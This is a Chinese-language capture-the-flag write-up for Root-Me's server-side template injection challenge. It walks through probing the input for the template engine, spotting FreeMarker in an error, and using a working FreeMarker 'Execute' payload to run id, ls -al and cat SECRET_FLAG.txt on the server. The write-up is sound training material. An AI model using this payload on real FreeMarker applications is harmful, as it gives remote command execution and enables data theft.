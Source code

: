 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[Server-side Template Injection](https://www.root-me.org/en/Challenges/Web-Server/Server-side-Template-Injection)] [[解题报告](http://exp-blog.com/2019/03/10/pid-3528/)]

------


## 前置知识

SSTI (服务侧模板注入) 题型，此挑战要用到的相关知识可以参考以下文档：

- [服务端模板注入攻击 （SSTI）之浅析](https://www.freebuf.com/vuls/83999.html)
- [SSTI攻击分析](https://hellohxk.com/blog/ssti/)
- [FreeMarker执行系统命令](https://yq.aliyun.com/articles/519369)
- [freemarker学习笔记---assign标签](https://blog.csdn.net/yin767833376/article/details/51831262?utm_source=blogxgwz0)

------

## 试错

题目要求是读取文件【SECRET_FLAG.txt】的内容。

开启挑战后只有一个输入框，首先试试能不能 XXS ，输入一个探针 `<img src=0 />` ，发现原文回显，即被过滤了：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/01.png)

然后尝试直接访问 【[http://challenge01.root-me.org/web-serveur/ch41/SECRET_FLAG.txt](http://challenge01.root-me.org/web-serveur/ch41/SECRET_FLAG.txt)】，理所当然报错：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/02.png)

------

## SSTI 探针

既然这些方法都被封锁了，题目有提示是要用 SSTI 解题，还是不绕弯子实打实做吧~~

但是要使用 SSTI 攻击，首先需要知道这个页面使用了什么模板引擎。

在 [网上](https://www.freebuf.com/vuls/83999.html) 找到了 Burp Sutie 提供的一套 payload探针，用于快速确认模板引擎（其中绿色分支表示探针注入成功时的下一个步骤，红色表示注入失败时的下一个步骤）：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/03.png)

根据流程按部就班做就可以了。首先输入探针 `${7*7}` ，发现 WEB 计算成了 `49` ，即注入成功：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/04.png)

继续输入下一个探针 `a{*comment*}b` ，这次原文回显，即注入失败：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/05.png)

继续输入下一个探针 `${"z".join("ab")}` ，这次直接返回异常，即注入失败。

从探针流程上看，我们测试得到的模板引擎是 `Unknown` 。。。

不过仔细观察返回的异常信息，可以看见信息 `freemarker` 。

从网上找到 freemarker 是属于 Java 语言的模板引擎，因此可以针对性进行注入。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/06.png)

------

## 构造 payload

由于题目目标很明确要我们读取文件【SECRET_FLAG.txt】的内容，因此很自然就想到最直接的方法就是使用 **系统命令** 读取这个文件，例如：`cat SECRET_FLAG.txt` 。

接下来只需要找到方法“如何通过 freemarker 调用系统命令”即可。

我稍微找了一下就看到了 [这篇文章](https://yq.aliyun.com/articles/519369) ，它提供的 payload 还是很简单的：

```
<#assign exp="freemarker.template.utility.Execute"?new()>
${exp("any system cmd")}
```

其中第一行的意思是：利用 `assign` 标签定义一个全局变量 `exp` ，这个全局变量是通过 `freemarker.template.utility.Execute` 类 `new` 出来的一个实例变量。而在 freemarker 中， `freemarker.template.utility.Execute` 类的功能是调用系统命令。

第二行的意思就更简单了：利用全局变量 `exp` 调用任意系统命令。

> 关于 freemarker 的 `assign` 标签的功能可以参考 [这篇文章](https://blog.csdn.net/yin767833376/article/details/51831262?utm_source=blogxgwz0) 。

我们可以通过一个简单的 Linux 系统命令 `id` 测试它是否起作用，构造 payload 如下（**去掉了换行**）：

`<#assign exp="freemarker.template.utility.Execute"?new()>${exp("id")}`

成功获取到了当前 Linux 用户的 id 信息。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/07.png)

------

## 完成挑战

于是可以开始解题了，首先查看一下 SECRET_FLAG.txt 文件在哪，构造 payload 如下：

`<#assign exp="freemarker.template.utility.Execute"?new()>${exp("ls -al")}`

很幸运地，这个文件就在当前目录：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/08.png)

最后我们构造 payload 读取这个文件：

`<#assign exp="freemarker.template.utility.Execute"?new()>${exp("cat SECRET_FLAG.txt")}`

得到 flag ，完成挑战：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/09.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
